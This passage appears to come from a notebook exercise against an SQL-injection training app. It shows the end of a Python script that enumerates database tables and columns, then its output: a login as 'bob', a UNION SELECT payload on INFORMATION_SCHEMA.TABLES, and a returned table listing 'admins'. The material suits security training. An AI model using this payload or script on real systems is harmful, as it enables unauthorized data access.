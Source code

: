 ```python
                for row in rows[1:]:  # Skip the header row
                    cols = row.find_all('td')
                    if len(cols) >= 3:  # Ensure there are enough columns in the row
                        column_name = cols[1].get_text().strip()
                        print(f"Column: {column_name}")
            else:
                print("No table found inside searchheader div")
        else:
            print(f"No searchheader div found in the response for the table {secret_table_name}")
    else:
        print("No secret table found.")
else:
    print("Login failed")

```

    Successfully logged in as bob
    payload: 1' UNION SELECT 1, 2, table_name, 4, 5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='sqlitraining' -- 
    
    Tables in the database:



<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)
   </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
   2
  </td>
  <td style="width:200px">
   admins
  </td>
  <td style="width:450px">
   4
  </td>
  <td style="width:110px">
   5
  </td>
 </tr>
 <tr>
  <td style="width:200px">
   2
  </td>